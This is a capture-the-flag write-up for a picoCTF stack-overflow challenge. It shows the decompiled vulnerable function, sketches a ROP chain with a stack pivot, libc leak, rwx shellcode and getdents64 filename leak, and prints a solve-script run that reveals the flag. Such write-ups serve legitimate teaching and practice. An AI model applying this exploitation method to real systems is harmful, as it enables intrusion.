 Mitigations look wide open, at least.  Let's see what we have to work with vulnerability wise. 

## vulnerability

```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  setup();
  read(0,local_28,0x80);
  horse(local_28);
  return 0;
}
```

oh ok kinda trivial vulnerability. We get 96 bytes of overflow, which accounting for the stored RBP gives us 11 pointers worth of ROP chain. 

## exploitation

So to sum it up, we can ROP 11 times, we have like 5 file i/o syscalls, and the flag has an unknown filename. Our solution is gonna look like this, roughly:

1. use getdents64 to leak filename
2. mmap the flag
3. write the flag to stdout. 

The issue is we're somewhat starved for gadgets (can control rdi and rsi, don't have rdx onwards) and so argument control is kinda hard. There are things we could do to get around this potentially -- I found that calling strlen copied rdi to rdx, letting me get a very large rdx value at least. But even with that, we are still heavily limited in what we can do with only 11 returns. The saving grace is this lovely gadget "pop rsp; pop r13; pop r14; pop r15; ret;". Instead of trying to manage the full exploit in 11 returns, we can just write as long a chain as we want to writable program memory and then pivot the stack onto it. At that point, we can just ROP as usual. Leak the base of libc, mmap some rwx memory, write shellcode, leak the filename with getdents64, and then mmap and write. 

```text
❯ python solve.py REMOTE
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/lockdown-horses/horse'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'.'
[+] Opening connection to mars.picoctf.net on port 31809: Done
128
/home/sky/Dropbox/ctf/picomini-by-redpwn/lockdown-horses/solve.py:36: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("/     /   ")
[*] leaked libc_base: 0x7f3c2deff000
[*] leaked flag filename: flag-b1a750d7-91bf-43ab-8c81-4b504644b434.txt
[*] Switching to interactive mode
picoCTF{n0_sh3ll_v3ry_flag_xdd}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$  
```
